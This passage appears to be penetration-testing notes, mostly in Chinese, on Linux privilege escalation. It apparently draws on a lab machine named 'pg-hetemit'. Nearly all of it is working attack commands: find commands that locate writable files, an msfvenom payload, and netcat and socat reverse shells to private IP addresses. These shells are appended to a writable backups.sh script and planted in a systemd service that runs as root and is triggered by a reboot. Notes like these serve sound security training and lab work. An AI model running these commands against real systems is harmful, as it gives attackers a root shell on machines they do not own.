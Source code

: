 ```
gcc exp.c -o exp
chmod 777 exp
cpulimit -l 100 -f ./exp
```

## writable script
+ 全局可写script（root用户所有），写入提权payload， run as root
+ 一般可能是定时任务、管理员手动执行触发
+ 可写service文件，配合reboot提权； pg-hetemit

```
#全局可写目录
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

#全局可执行目录
find / -perm -o x -type d 2>/dev/null

#全局可写、执行 目录
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

#msfvenom 生成payload
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.106 lport=8888 R
mkfifo /tmp/ulgg; nc 192.168.1.106 8888 0</tmp/ulgg | /bin/sh >/tmp/ulgg 2>&1; rm /tmp/ulgg // copy to scripts

#直接添加
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.3.117 4445 >/tmp/f" >> backups.sh

# pg-hetemit
## sudo reboot, no password.
## /etc/systemd/system/pythonapp.service, write permission.
## search writable file.
find /etc -type f -writable 2> /dev/null

## change file to get reverse; user=root, ExecStart= reverse shell script
cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT

cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
socat TCP:192.168.118.8:18000 EXEC:sh
EOT

## reboot to get shell
sudo reboot
```